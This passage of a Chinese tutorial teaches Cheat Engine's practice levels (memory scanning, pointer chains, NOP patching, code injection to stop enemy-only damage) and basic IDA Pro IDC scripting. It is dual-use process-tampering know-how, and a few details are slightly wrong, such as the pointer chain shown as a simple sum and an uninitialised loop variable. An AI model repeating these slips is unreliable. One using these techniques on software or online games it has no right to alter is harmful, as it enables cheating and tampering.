 - 然后，在上方的输入框填入当前 生命值 的数值，并点击 ‹首次扫描› 
 - 等待扫描完毕，左边的列表会显示扫描结果。你可能会找到非常多的地址，而且你无法确认哪个才是真的。
 - 现在可以点击 [打我] 按钮，让生命值发生变化，然后再次输入新的数值并点击「再次扫描」按钮。这样反复操作几次，直到你确定找到了真正的地址。

双击这个地址，它会出现在窗口下面的列表里，你还能看到它当前的数值，然后双击这个数值，（或者选中并按下回车键），把数值修改成 1000 如果操作正确，"下一步" 按钮就会变成激活的状态。

首先用户需要扫描当前内存中的`100`这个值可以是任意进程内的数据，该值一般代表全局变量或局部变量的动态地址，如下图所示，绿色的则代表是全局变量或者说是基址，该地址在程序运行的整个生命周期内都不会发生变化，而灰色的则代表局部变量，该值可以随进程的启动关闭而随机发生变化；

点击完 "首次扫描" 按钮后  左边会出现所有扫描结果。( 点击完 "首次扫描" 按钮后，"首次扫描" 按钮 变成 "新的扫描" 按钮，如果在扫描过程中操作失误，或者填错了数值。可以点击 "新的扫描" 重新再来)



接下来我们需要回到案例中，并点击案例中的打我按钮，此时数值会发生微妙的变化，此时我们通过使用CE中的再次扫描按钮，即可得到一个确定的内存地址`017584E0`此内存地址所代表的则是100这个值所存储在内存中的动态地址指针。



读者可通过双击这个地址拉入到底部地址栏，并双击将其修改为`1000`，则此时下一步按钮将会被点亮，如下图所示；



### 2.2 未知数值扫描

本关需要扫描未知数只扫描，要在不知道初始值的情况下找到一个在0到500之间的数值。首先，选择“未知的初始值”扫描方式，在数值类型中选择 4 字节，并点击“首次扫描”以开始扫描。扫描结束后，点击“打我”按钮进行一些操作，回到 Cheat Engine，选择“减少的数值”作为扫描类型，点击“再次扫描”并重复操作直到检索出很少的几个地址。由于该数值在0到500之间，可以挑出最为相似地址，并将其加入到下方的地址列表。接着，将健康值更改为 5000 以便进入下一关。需要记住的重点是，在开始新的扫描之前，务必要先点击“新的扫描”按钮。

本关中的进度条可以是任意数值，在读者不知道的情况下则需要通过未知数值的方式来对其进行枚举；

 - 1.选择扫描方式 [未知初始数值]，数值类型仍然选择4字节。点击 [首次扫描] 并等待扫描结束。
 - 2.扫描完成后，点击 [打我] ，会减少一些健康值。
 - 3.回到 Cheat Engine，在扫描类型中选择 [减少的数值]，然后点击 [再次扫描]。
 - 4.扫描完毕后，再次点击 [打我]，并重复 第三步，直到检索出很少的几个地址。 

由于读者已经知道这个数值在0到500之间，所以挑出那个最为相似的地址，或再次点击减少的数值用肉眼去检查也可，并将它加到下方的地址列表。更改健康值为 5000，就可以进入到下一关。

首先读者应选择未知初始值，并点击"首次扫描"功能，此时CE会搜索出一些结果；



回到测试案例中，手动点击打我按钮，此时进度条会减少数据，至此我们在CE中选择减少的数值，并点击"再次扫描"按钮，



此时CE中输出的结果列表依然过多，读者可再次点击"打我"按钮让数据再次递减，然后再次点击"再次扫描"按钮，我们知道这个值在`0-500`之间，则很容以即可得到最终值，读者可将其双击加入到任务栏，并修改为5000，至此本关就通过了。



### 2.3 浮点数扫描

本关需要使用 Cheat Engine 工具对浮点数进行扫描，完成修改任务。浮点数是一种带有小数点的数值，通过“浮点数”扫描方式进行修改。本关中，健康值为单精度浮点数，弹药值为双精度浮点数，需要将这两项数值都修改为 5000 或更高。提示建议禁用“快速扫描”功能，以获取更准确的扫描结果。

这里首先科普一下，单精度浮点数与双精度浮点数是计算机中常用的两种浮点数数据类型，它们之间的主要区别在于所占用的内存大小和表示的数据范围。

 - 单精度浮点数 [float] 是一种32位的浮点数数据类型，由一位符号位、8位阶码和23位有效数字组成，可以表示的数值范围大约为1.4E-45到3.4E38，精度为6-7位，适用于大多数的科学计算和工程领域。
 - 双精度浮点数 [double] 是一种64位的浮点数数据类型，由一位符号位、11位阶码和52位有效数字组成，可以表示的数值范围大约为4.9E-324到1.8E308，精度为15-16位，拥有更高的精度和更广的表达范围，适用于需要更高精度计算的场景，例如大量数据的数学计算、天文学、物理学等领域。

因为双精度浮点数要占用更多的内存，所以在内存受限的场景下，单精度浮点数更为利于使用。同时，在性能要求更高的场合（例如计算机图形学和游戏开发等领域），单精度浮点数的运算速度也更快。

浮点数的搜索功能与精确扫描完全一致，唯一的区别在于在扫描上，需要使用浮点数格式对数据进行扫描，正如本关中的健康和弹药，两者都以浮点方法储存数据，唯一不同的的是：

 - 健康值为单精度浮点数，点击"打我"将减少一些健康值。
 - 弹药值为双精度浮点数，点击"开火"则消耗掉 0.5 的弹药。

浮点数在游戏开发中应用十分广泛，在多数游戏中，人物坐标，弹药等都会使用浮点数进行存储，我们以单精度浮点数为例，用户在CE菜单中的数值类型上选择单浮点按钮，并输入需要扫描的数据，



此时根据需求，将数据改为5000本关也就通过了。



### 2.4 代码替换功能

代码替换功能，需要使用 Cheat Engine 工具的“代码查找”功能，来查找游戏数据存储在内存中的地址。首先找到当前数值的存储地址，并将其添加到下方地址列表中。然后右键单击该地址，并选择“找出是什么改写了这个地址”，将弹出一个空白窗口。接着，点击本教程窗口上的“改变数值”按钮，并返回 Cheat Engine，如果操作没有问题，在空白窗口中将出现一些汇编代码。选中代码并点击“替换”按钮，将其替换为什么也不做的代码（空指令），同时，修改后的代码也将放置在“高级选项”的代码列表中保存。点击“停止”，游戏将以正常方式继续运行，关闭窗口。现在，再次点击教程窗口上的“改变数值”，如果锁定速度足够快，“下一步”按钮将变为可点击状态。提示：在锁定地址时，如果速度足够快，“下一步”按钮也会变为可点击状态。

某些游戏重新开始时，数据会存储在与上次不同的地方, 甚至游戏的过程中数据的存储位置也会变动。在这种情况下，你还是可以简单几步搞定它。这次我将尽量阐述如何运用 "代码查找" 功能。

本关同样需要使用`精确数值扫描`的内容来得到一个唯一的内存地址，读者可通过自己的尝试来找到这个地址，如下图所示；



当读者找到这个内存地址后，可在该地址上方右键，并选中找出是什么改写了这个地址，这就意味着当进程内的数值再次发生变化时，改写代码就可显示在列表中；



当读者点击改写按钮后CE则会监控这个内存区域，回到进程中点击改变这个数值，则CE会输出如下图所示的一段汇编代码；



CE修改器中所实现的`是什么访问了内存地址`以及`是什么改写了内存地址`其本质上是修改器在特定内存区域设置了内存断点，内存访问断点和内存写入断点都是用于对内存访问的监控和跟踪功能。

 - 内存访问断点 [Access Breakpoint] 是指监控指定内存地址的读取操作（如MOV、MOVSX、MOVZX指令），当程序执行这些指令进行读取操作时，内存访问断点会中断程序运行，弹出断点信息窗口，并暂停程序的执行，以便进行调试和修改。

 - 内存写入断点 [Write Breakpoint] 是指监控指定内存地址的写入操作（如MOV、ADD、SUB、PUSH、POP指令），当程序执行这些指令进行写入操作时，内存写入断点会中断程序运行，弹出断点信息窗口，并暂停程序的执行，以便进行调试和修改。

两者的主要区别在于监控的操作不同，内存访问断点监控的是对内存地址的读取操作，而内存写入断点监控的是对内存地址的写入操作。根据实际需要进行选择，使用内存访问断点或内存写入断点能够更方便地定位和排除程序问题，提高程序的可靠性和稳定性。

因为上图中我们选择的是改写地址，所以下的是内存写入断点，一旦特定内存区域被写入数据时，则断点会自动停留在修改此段数据的汇编指令上面，

此时我们选中代码并点击"替换"按钮，将它替换成什么也不做的代码（空指令），汇编的空指令为 nop，同时，修改后的代码也将放置在"高级选项"的代码列表中去（保存地址列表时会同时保存），至此点击下一步则可通关。



### 2.5 寻找数值指针

上一步阐述了如何使用代码替换功能对付变化位置的数据地址，但这种方法往往不能达到预期的效果，所以我们需要学习如何利用指针，在本关的`Tutorial.exe`窗口下面有两个按钮，一个会改变数值，另一个不但能改变数值而且还会改变数值在内存中存储的位置。接下来我们将找到内存中的基址，为什么要找指针，在前面的教程中，如果各位细心观察的话就会发现 在笔者截图中的出现地址和你的地址并不相同。也就是说，这些地址是一直在变化的，我们把它叫做动态地址，我们必须寻找到该动态地址的基址，并以此来保证唯一性。

在本关的 `Tutorial.exe` 窗口下面有两个按钮，一个会改变数值，另一个不但能改变数值而且还会改变数值在内存中存储的位置。这一步，你不需要懂得汇编，但如果懂的话会很有帮助。

 - 首先找到数值的动态内存地址，然后再 [找出是什么改写了这个地址]。
 - 再次改变数值，CE便可以列出找到的汇编代码。 双击一行汇编代码（或选择它并点击 "详细信息"）会打开 [详细信息] 窗口以显示详细的信息。
 - 查找方括号内的汇编指令集，寻找到偏移地址，并继续搜索地址，依次寻找下去知道找到绿色基地址位置。

首先第一步，读者应该使用精确数值扫描功能寻找到特定的一个内存地址空间，如下图所示则是动态内存地址空间；



接着第二步则是通过在内存地址处，鼠标右键选择是什么改写了这个地址，并再次让内存地址发生改变，如下图所示；



至此读者通过双击打开`mov [edx],eax`则可看到当前汇编指令的详细输出情况，寄存器EDX后面并没有任何偏移地址，此时读者只需要关注EDX寄存器的值，因为该值保存有指向下一个区域的内存地址，将地址`01A252A8`复制到剪辑版中；



将新地址以十六进制格式搜索四字节，并可输出一个绿色的`"Tutorial-i386.exe"+2566B0`没错，该地址就是一个基地址，此地址在程序重启后也不会发生任何的变化。



此时读者可以将该地址添加到底部的选择框中，点击选择空中的`手动添加地址`并选中添加偏移为0，即可动态得到当前的内存地址，如下图所示；



但需要注意的是，此处的指针为什么需要使用0呢，如果汇编指令中的方栝号里存在计算`（例如：[esi+12]）`则需要把数值部分填在"Offset (Hex)"的文本框中，如果不存在则让它保持为0。

如果看上去是更复杂的计算指令的话（举例说明）：[EAX*2+EDX+00000310] eax=4C 并且 edx=00801234 。

这种情况下`EDX`便是数值的指针，而`EAX*2+00000310`则是它的偏移量, 所以你要填在`"Offset (Hex)"`的将是`2*4C+00000310=3A8`。

回到教程，点击"确定"这个地址便会加到 CE 主窗口下方的地址列表中，如果没做错，在地址栏将显示 P->xxxxxxxx，而 xxxxxxxx 和你扫描到的地址数值是一致的，如果不一致，那么可能是哪里出错了。
现在, 改变那条指针地址的数值为 `5000` 并锁定它，然后点击 `Tutorial.exe` 窗口上的"改变指针"按钮，如果一切正确，"下一步"按钮将变为可点击状态。



### 2.6 代码注入功能

从本关开始，各位会初步接触到CE的反汇编功能，这也是CE最强大的功能之一。在第6关的时候我们说到指针的找法，用基址定位动态地址。但这一关不用指针也可以进行修改，即使对方是动态地址，且功能更加强大。代码注入是将一小段你写出的代码注入到目标进程中并执行它的技巧。在这一步教程中，你将有一个健康值和一个每按一次将减少 1 点健康值的按钮，你的任务是利用"代码注入"，使每按一次按钮增加2点的健康值。

在 Cheat Engine 修改器中使用代码注入功能的步骤如下：

 - 找到需要修改的数值的地址，并查找是什么在改写它。
 - 查找减少数值的汇编代码，选择 [显示反汇编程序]，然后打开 [自动汇编窗口]。
 - 在自动汇编窗口中，选择 [模板] 中的 [代码注入]。
 - 在代码注入部分，使用 [ADD] 汇编指令编写你修改数值的代码。
 - 在代码注入部分，使用相同的手法处理减少数值的那条原代码方括号之间的部分。
 - 删除减少数值的原代码行，点击 [应用代码] 使修改生效。

代码注入功能可以将一小段你编写的代码注入到目标进程中并执行它。如果可以找到正确的修改地址和编写适当的代码，代码注入功能可以大大改变游戏行为。需要提醒的是，在操作代码注入前，确保你理解代码的含义，并注意程序的稳定性和安全性。

首先老样子，读者需要通过基础知识找到该数值所对应的内存地址，并找到是什么改写了这个内存地址，如下图所示；



按一下打我按钮，会出现一行汇编代代码`004278C3 - 83 AB A4040000 01 - sub dword ptr [ebx+000004A4],01 <<`

这条汇编指令的作用是将`[ebx+000004A4]`地址中的数据减1，sub指令是一条减法指令。它可以用来减去两个操作数中的第二个操作数（源操作数）的值，然后将结果存储到第一个操作数（目的操作数）中。sub指令通常用于数学运算和内存操作。

sub指令的语法如下：
```c
sub destination, source
```
其中，`destination`是目的操作数，`source`是源操作数。两个操作数可以是立即数、寄存器或内存位置。

例如，以下代码将执行一个减法操作：
```c
mov eax, 10  ; 加载10到寄存器eax中
sub eax, 5   ; 从eax中减去5，结果为5
```
在这个例子中，指令`mov`用于加载数字`10`到寄存器`eax`中，然后指令`sub`用于从`eax`中减去数字5。结果将存储回eax寄存器中，所以最终`eax`的值为5。除了sub指令，还有其他的减法指令，如sbb和dec指令。sbb指令用于减去两个操作数和进位标志位（CF）的和，而dec指令用于将一个操作数减去1。

此时我们打开详细信息列表，会看到如下图所示的数据，其中`EBX=01A4A3C8`而`EBX+4A4`则正好等于`‭1A4A86C‬`也就是动态的内存地址。



读者可通过点击显示反汇编程序来到反汇编位置处，如下图所示；



根据题目要求，将减法改为加法，每次数据变为增加而不是减少，打开"自动汇编窗口"（ 菜单 -> 工具 -> 自动汇编 或 按下快捷键 Ctrl+A )，选择 "模板" 中的 "代码注入"。CE 将自动生成一部分汇编代码并为你输入指令做好准备（如果 CE 没有给出正确的地址，你也可以手工输入它）。

根据题目要求，需要将减法每次减少1改为每次增加2，此时可直接`add dword ptr [ebx+000004A4],03`增加一个3，点击执行按钮分配作弊代码；



至此当用户再次尝试点击打我是，则每次会增加2点，该功能就这样被实现了。



### 2.7 多级指针查找

在本步骤中，你需要使用多级指针的概念来查找健康值真正的地址并修改它。多级指针就是一个指针的指针，也就是第一个指针指向第二个指针，第二个指针指向第三个指针，以此类推，最终指向你想要访问的地址。

首先，你需要按照跟第 6 步类似的方式找到健康值的地址，并分析汇编代码以查找指向健康值地址的指针。然后，你需要找到指向这个指针的指针，并按照同样的方式分析汇编指令和偏移量，找出下一个指向指针的指针。继续这个过程，直到无法进一步查找，通常是当你找到一个静态基址时，地址将以绿色标示。

如果你发现列表中那些指针地址所指向的值发生同样的变化时，那表示你可以试着将基址中的值更改为 5000，并锁定它，以便完成任务。

在这个过程中，你还可以使用 Cheat Engine 软件的代码查找和指针扫描器来加快查找的过程。然而，在某些情况下，需要更改软件的相关设置来解决一些问题。

要注意的是，在查找指针时，留意可能的代码和偏移量，将有助于更好地理解程序的代码结构和指针之间的关系。

本关步骤大体可总结为如下：

 - 开始的几步与在第6步中的操作基本相同。找出是什么访问了这个地址，然后记录下动态地址
 - 接着我们逐级向下查找，在查找的过程中，分别记录下动态地址，以及所对应的偏移地址
 - 最后将这些地址相加，并锁定数值为5000，点击改变指针，然后就可通关

首先通过前面的知识定位到动态内存地址，并找出是什么改写了这个内存地址，这里读者需要注意`mov [esi+18],eax`意味着一级偏移值是`0x18`而下一个搜索地址则是`ESI`寄存器中的值`017FECE0`



我们以十六进制模式继续搜索这个内存地址，并找出是什么访问了这个内存地址，点击改变数值，此时即可看到如下图所示的指令集；



点击查看详细信息，在该指令中可知二级偏移是`0x0`而下一个内存地址则是`ESI`的值也就是`0178AE58`，继续新的搜索寻找这个内存地址，可看到如下图所示，三级偏移是`0x14`下一个要寻找的地址是`017FEC70`



至此通过搜索`017FEC70`我们得到了第四级偏移值`0x0c`同时得到了下一个指针地址`0180B400`如下图所示。



通过进一步搜素这个内存地址，最终即可获取到一个绿色的`Tutorial-i386.exe+2566E0`地址，该地址则是基地址；



这里我们已经找到了所有的地址，接下来串一下这些地址即可得到当前动态地址的内存基址，

> 0x006566E0 + 0xc + 0x14 + 0 + 18

把基址`Tutorial-i386.exe+2566E0`的值取出来，加上一级偏移`0x0C`当做地址，这是二级指针的地址，再把二级指针的值取出来，加上`0x14`，这是三级指针的地址，依次类推，直到全部找到为止，最后将地址填入到手动添加地址位置，至此就完成了指针的寻找；



这里需要解释一下为什么会有基址这个东西，首先内存基址和全局变量之间存在密切关系（某些全局变量是写死在PE结构中的，而进程在载入到内存时并不是每次基地址都一致的，这就意味着要通过偏移来找到基址）。在某些编程语言和编写程序的环境中，全局变量是在内存中存储的。当程序需要访问这些全局变量时，在内存地址中需要通过内存基址来计算出其真正的地址。

例如，C语言中定义的全局变量：
```C
int global_var = 42;
```
在内存中存储时`global_var`的地址将根据内存基址进行计算。如果内存基址为`0x400000`，那么`global_var`的地址可能是`0x400040`。程序在访问`global_var`时，需要将内存基址和偏移量相加，以得出实际的地址。

此外，全局变量的值可以被不同函数或代码块访问，因此在程序调用过程中，内存基址也需要根据需要进行修改。编辑器和编译器通常会为全局变量分配内存空间，并在程序运行时分配和管理内存基址和全局变量之间的关系。

总之，内存基址和全局变量通常是在程序中起着重要作用的概念，它们是程序如何管理和访问内存的基础。对于任何需要直接访问内存的程序，理解内存基址和全局变量的概念是至关重要的。

### 2.8 寻找共享代码

本关我们将学习共享代码，在C语言中角色属性都是以结构体的方式进行存储的，而结构体所存储的信息都是连续性的，这一关我们将会解释如何处理游戏中的共用代码，这种代码是通用在除了自己以外的其他同类型对像上的
常常你在修改游戏的时候，你找到了一个单位的健康值或是你自己角色的生命值，你会发现一种情况，如果你把生命值相关代码移除的话，其结果是你的角色无敌，但你的敌人也无敌了，这就是共享代码的问题。

本关模拟一种游戏，其中左边为我方，而右边为敌人，当我们点击重新启动并自动执行的时候我方血量不足会死亡。你的任务是找到改写健康的代码, 并且修改以至于你可以获得胜利，但"绝不能"使用锁定HP的方法。在遍历血量的时候应该使用单浮点数进行搜索。

首先读者需要根据第一关中的搜索方法，分别将下面四个人物的血量搜索到，需要注意在搜索时使用浮点数模式，如下图所示；



读者可以分别在每个动态地址上面，右键选择`找出是什么改写了这个地址`，会发现这四个地址都指向了同一条汇编代码，而之所以会如此是因为，这些代码使用了同一个结构体进行了存储和同样的代码进行管理，这也就说明了其使用了共享代码。

共享代码的问题就在于，如果将此处的汇编指令替换掉，则会影响敌方与我方两个阵营的问题，一旦数据发生改变则两者都会影响，如果我方队友全部无敌了，地方也会无敌，此方法将变得毫无意义可言，无法达到修改数据的作用。



我们分别在每一个地址上面右键选择`浏览相关内存区域`，然后对比四个地址会发现一些规律；

首先看一下我方阵营中内存数据是如何展示的，如下图所示分别是玩家`Dave`和`Eric`的内存数据；





接着看一下敌方阵营中内存数据是如何展示的，如下图所示分别是玩家`HAL`和`KITT`的内存数据；





上方的四个图片可看出我方队友编号为`1`而敌人的编号为`2`，我们可以通过编号来判断是否为敌人，来决定要不要让其掉血。当然也可以判断名字的开头字母来决定，如果是`D`或`E`开头，则说明是队友不能让其掉血，否则的话则直接执行扣血代码。

接下来我们要注入代码，CE切换到内存浏览窗口，然后选择`工具 -> 自动汇编`，`模板 -> 代码注入`点击确定，如下图所示，图中的原始代码是`mov [ebx+04],eax`，意思是当前血量处于`ebx+04`的位置。



了能够遍历到状态位，我们需要计算出队伍编号和血量的偏移值，

观察下图发现 Dave 血量地址是 `0621E91C` 和队伍编号地址 `0621E928`，两者十六进制相减`（0621E928 - 0621E91C = 0C）`得到`0C`，如果血量是 `ebx+04`，那么队伍编号就应该是 `ebx+04+0C` 就是 `ebx+10`。


直接写以下汇编代码（这段代码的含义是，判断阵营位置处是否为1如果是则直接跳转到结束不执行扣血，如果不是则说明是敌人直接执行原始指令扣血），然后执行注入。



当一切准备就绪，点击重新启动游戏并自动执行，本关则可顺利通过，如下图所示；



使用CE（Cheat Engine）修改器，您可以轻松地修改游戏内的各种数值和功能。在本入门指南中，我们介绍了修改器的许多功能，包括精确数值扫描、未知数值扫描、浮点数扫描、代码替换功能、寻找数值指针、代码注入功能、多级指针查找和寻找共享代码。这些功能可以让您在解锁游戏中的隐藏内容或改进游戏玩法上拥有更大的自由度。

无论您是新手还是有经验的玩家，本入门指南都提供了一些有用和实用的技巧来帮助您更好地使用 CE 修改器。但请记住，游戏开发者通常不赞成修改游戏的任何方面，并且在某些情况下，这可能会导致您被游戏管理员封禁。因此，请使用 CE 修改器时要小心并有节制。希望这个入门指南能帮助您掌握使用 CE 修改器的基础知识，以便更好地定制您的游戏玩法。


## 第三篇：熟悉IDAPro静态反汇编器

IDA Pro 是一种功能强大且灵活的反汇编工具，可以在许多领域中发挥作用，例如漏洞研究、逆向工程、安全审计和软件开发等，被许多安全专家和软件开发者用于逆向工程和分析二进制代码。它支持大量的二进制文件格式和CPU架构，并提供了强大的反汇编和反编译功能。使用IDA Pro，用户可以查看和编辑汇编代码、查看函数和程序结构，并分析代码执行逻辑和漏洞。此外，IDA Pro还具有脚本编程和插件扩展功能，使用户能够轻松自定义和改进其功能。


IDA官方网站：https://hex-rays.com/

IDA的启动非常简单，只需要双击打开`ida.exe`即可，打开后读者可看到如下图所示的提示界面，当然读者如果需要逆向分析64位应用程序则需要打开文件内的`ida64.exe`即可，一般而言读者可通过`New`按钮来选择新建一个反汇编任务，也可以直接通过`Go`按钮来直接进入反汇编工具主页，当然如果读者有以前分析过的工程项目则可以通过`Previous`按钮快速跳转到待分析项目中；


我们以`New`为例，当打开后则提示读者需要选择一个被分析文件，当选择后会自动弹出如下所示的选项卡，选项卡中已经为我们识别出待分析程序的相关内容，读者只需要点击OK按钮即可打开IDA桌面环境；



当读者成功加载了被分析文件，则IDA会呈现出如下图所示的，其中最左侧的`Functions`列表代表的是当前IDA所分析出的内部函数，这些函数片段通常是编程者自己的一些子过程以及一些第三方API接口，桌面的右侧最大的部分则是IDA的主要工作台，其中`IDA View-A`代表的是当前被分析程序的反汇编代码，`Hex View-1`则是十六进制格式的机器码，`Structures`代表的是IDA所解析出来的结构体参数，`Enums`代表的是枚举类型的定义数据，`Imports`是导入表，`Exports`则是导出表。在IDA的最底部则是输出信息，此处的信息有IDA自身信息，也有程序调试信息等；



在桌面的最顶端是IDA的彩色水平带也叫做导航带，导航带中是被加载文件地址空间的线性视图，默认情况下它会呈现出二进制文件的整个地址范围，读者可以右击导航带内任何位置，并选择一个可用的缩放选项，放大或缩小显示的地址范围，同时导航带中会存在一个黄色的指针，当点击后会提示用户当前指针所对应的文件位置，该导航带对于代码分析可以起到很好的预览目的。



在IDA窗口中读者最需要关注的窗口则是`IDA View-A`反汇编窗口，在反汇编窗口中读者可根据自身需求对代码进行分析，其次IDA窗口中可实现动态绘图的功能，当读者需要对特定区域中特定函数进行绘图时只需要选中该函数的头部，并右键选择`GraphView`按钮，则可将当前函数绘制成图；



当绘制成流程图以后，读者可通过按下`Ctrl+鼠标中键滚动`以此来实现对流程图的放大和缩小，在绘图模式下读者也可以通过点击不同的分支结构从而实现跳转到不同位置处，在绘图模式下，一般而言绿色线条代表跳转为真，红色线条代表跳转为假，而蓝色线条则代表无条件跳转，另外按下空格还可实现汇编与绘图窗口的灵活切换，如下图所示；



除了简单的绘图功能外IDA还提供了`F5`插件，运用该插件可对特定区域反汇编代码生成C语言格式的流程代码，读者只需要选中一段内存代码片段，并按下F5即可看到如下伪代码输出格式；



针对IDA工具的使用技巧还有许多，此处仅仅只是抛砖引玉带读者入门，如果需要获取更多关于IDA工具的使用方法，还得通过不同的积累学习，本章不可能将IDA中的每一个细节都概括到；

### 3.1 IDA编写IDC脚本

IDA Pro内置的IDC脚本语言是一种灵活的、C语言风格的脚本语言，旨在帮助逆向工程师更轻松地进行反汇编和静态分析。IDC脚本语言支持变量、表达式、循环、分支、函数等C语言中的常见语法结构，并且还提供了许多特定于反汇编和静态分析的函数和操作符。由于其灵活性和可扩展性，许多逆向工程师都喜欢使用IDC脚本语言来自动化反汇编和静态分析过程，以提高效率和准确性。

在IDA中如果读者按下`Shift + F2`则可调出脚本编辑器，如下图所示，其中左侧代表当前脚本的名称列表，右侧则代表脚本的具体实现细节，底部存在三个菜单，第一个按钮是运行脚本，第二个按钮是覆盖导入脚本，第三个则是追加导入，他们之间的功能个有不同，读者可自行体会；



**（1）IF语句的构建**

IF语句的使用非常容易，如下代码，通过`ScreenEA()`函数识别到当前光标所在位置处的指令内存地址，并对比该内存地址是否符合特定的条件，如果符合则输出，不符合则最终输出没有找到；
```C
#include <idc.idc>

static main()
{
    auto CurrAddress = ScreenEA(); 
    if(CurrAddress == 0x0046E31A)
    {
       Message("程序OEP => 0x%x \n",CurrAddress);
    }
    else if(CurrAddress == 0x0046E331)
    {
       Message("程序OEP => 0x%x \n",CurrAddress);
    }
    else
    {
      Message("没有扎到OEP \n");
    }
}
```

**（2）FOR语句的构建**

与C语言格式几乎一致，For语句的构建也很容易理解，首先程序通过`GetFunctionAttr()`函数并设置`FUNCATTR_START`属性获取到当前光标所指向程序段的开始地址，通过`FUNCATTR_END`设置光标的结束位置，最后调用For循环，一次输出当前内存地址及下一个内存地址，直到将本段内容全部输出为止；

```C
#include <idc.idc>

static main()
{
    auto origEA,currEA,funcStart,funcEnd;
    origEA = ScreenEA();
    
    // origEA = OEP 如果origEA 不在函数内则返回-1
    funcStart = GetFunctionAttr(origEA,FUNCATTR_START);
    funcEnd = GetFunctionAttr(origEA,FUNCATTR_END);
    Message("OEP: %x 起始地址: %x --> 结束地址: %x \n",origEA,funcStart,funcEnd);
    
    // NextHead 在currEA开始的位置寻找下一条指令的地址
    for(currEA = funcStart; currEA != -1; currEA=NextHead(currEA,funcEnd))
    {
        Message("指令地址：%8x \n",currEA);
    }
}
```

**（3）WHILE语句的构建**

该语句的构建与FOR语句基本一致，与FOR语句唯一的不同在于该语句只能接受一个参数，如下代码中读者需要注意`GetFunctionName()`可用于获取当前光标所在位置处所属函数的名称。

```C
#include <idc.idc>

static main()
{
    auto origEA,currEA,funcStart,funcEnd;
    origEA = ScreenEA();

    // origEA = OEP 如果origEA 不在函数内则返回-1
    funcStart = GetFunctionAttr(origEA,FUNCATTR_START);
    funcEnd = GetFunctionAttr(origEA,FUNCATTR_END);
    Message("OEP: %x 起始地址: %x --> 结束地址: %x \n",origEA,funcStart,funcEnd);
    
    while(currEA != BADADDR)
    {
        Message("--> %x name: %s \n",currEA,GetFunctionName(currEA));
        currEA = NextHead(currEA,funcEnd);
    }
}
```

**（4）函数的实现**

IDA中使用函数通常可在一个字符串之前定义为`static`，函数的参数列表一般而言是以逗号进行间隔开的，当函数存在返回值是则通过`return`语句返回。

```C
#include <idc.idc>

// 定义一个函数
static OutPutAddress(MyString)
{
    auto currAddress;
    currAddress = ScreenEA();
    Message("%d \n",MyString);
    return currAddress;
}

// 传递多个参数
static OutPutAddressB(x,y)
{
    return x+y;
}

static main()
{
    auto ret = OutPutAddress(123);
    Message("返回当前地址 = 0x%x \n",ret);
    
    auto ref = OutPutAddressB(100,200);
    Message("计算数值 = %d \n",ref);
    
}
```

**（5）定义并使用数组**

与高级语言类似，IDC脚本中同样支持数组操作，不同于C语言中的数组，IDC中在使用时首先需要通过`CreateArray("array")`创建一个数组，当数组指针被创建成功后下一步则是通过`GetArrayId("array")`得到该数组的指针，通过指针读者可以使用`SetArrayString`设置一个字符串变量，或使用`SetArrayLong`设置整数变量，当用户需要使用变量时则需要通过`GetArrayElement()`函数对数组内的数据进行提取，提取时`AR_STR`代表提取字符串，`AR_LONG`则代表提取整数类型，当读者需要删除数组内的特定元素可使用`DelArrayElement()`函数，最后使用结束调用`DeleteArray()`注销整个数组；
```C
#include <idc.idc>

static main()
{
    // 创建数组元素
    auto array_ptr = CreateArray("array");
    // 获取数组指针
    auto ptr = GetArrayId("array");
    
    Message("获取到的操作指针: %x \n",ptr);
    
    // 设置两个字符串变量
    SetArrayString(ptr,0,"hello");
    SetArrayString(ptr,1,"lyshark");
    
    // 设置两个整数变量
    SetArrayLong(ptr,2,100);
    SetArrayLong(ptr,3,200);
    
    // 如果提取字符串使用 AR_STR 标记 ，提取整数使用 AR_LONG
    auto st = GetArrayElement(AR_STR,ptr,0);
    auto st1 = GetArrayElement(AR_STR,ptr,1);
    Message("提取字符串变量: %s %s !\n",st,st1);
    
    auto lo = GetArrayElement(AR_LONG,ptr,2);
    Message("提取整数变量: %d \n",lo);
    
    // 删除数组的0号元素
    DelArrayElement(AR_STR,ptr,0);
    // 注销整个数组
    DeleteArray(ptr);
}
```

**（6）字符串处理**

IDC中读者可以使用`form()`函数实现对特定字符串的格式化输出操作，IDC中同样也内置了各类转换函数，如下代码所示，则是IDC中可以经常被用到的函数调用，读者可自行参考；
```C
#include <idc.idc>

static main()
{
    // 格式化字符串,类似于sprintf
    auto name = form("hello %s","lyshark");
    Message("格式化后的内容: %s \n",name);
    
    Message("十六进制转为整数: %d \n",xtol("0x41"));
    Message("十进制100转为八进制: %d \n",ltoa(100,8));
    Message("十进制100转换二进制: %d \n",ltoa(100,2));
    Message("字符A的ASCII: %d \n",ord("A"));
    Message("计算字符串长度: %d \n",strlen("hello lyshark"));
    
    // 在主字符串中寻找子串
    auto main = "hello lyshark";
    auto sub = "lyshark";
    Message("寻找子串: %d \n",strstr(main,sub));
}
```

**（7）枚举所有函数**

如下脚本实现了枚举当前指针所在位置处所有函数名称及地址，首先通过`ScreenEA()`函数获取当前指针所在位置，通过`SegStart()`用于获取该指针所在位置处模块的开始地址，与之对应的是`SegEnd();`则用于获取结束地址，接着通过调用`GetFunctionName();`得到当前地址处的函数名，并依次通过`NextFunction();`得到下一个模块地址，最终输出所有函数名及其地址信息；
```C
#include <idc.idc>

static main()
{
    auto currAddr,func,endSeg,funcName,counter;
    
    currAddr = ScreenEA();
    func = SegStart(currAddr);
    endSeg = SegEnd(currAddr);
    Message("%x --> %x \n",func,endSeg);
    
    counter = 0;
    while(func != BADADDR && func < endSeg)
    {
        funcName = GetFunctionName(func);
        if(funcName != " ")
        {
            Message("%x --> %s \n",func,funcName);
            counter++;
        }
        func = NextFunction(func);
    }
}
```
当然读者可以通过增加IF语句来判断`funcName`函数名是否是我们所需要枚举的，如果是则输出，如果不是则继续下一个函数，依次类推实现函数枚举功能，读者只需要在上述代码基础上稍加改进即可实现；
```C
#include <idc.idc>

static main()
{
    auto currAddr,func,endSeg,funcName,counter;
    
    currAddr = ScreenEA();
    func = SegStart(currAddr);
    endSeg = SegEnd(currAddr);
    Message("%x --> %x \n",func,endSeg);
    counter = 0;
    
    while(func != BADADDR && func < endSeg)
    {
        funcName = GetFunctionName(func);
        if(funcName != " ")
        {
            if(funcName == "__lock")
            {
                Message("%x --> %s \n",func,funcName);
            }
            counter++;
        }
        func = NextFunction(func);
    }
}
```

**（8）设置内存区域标签高亮**

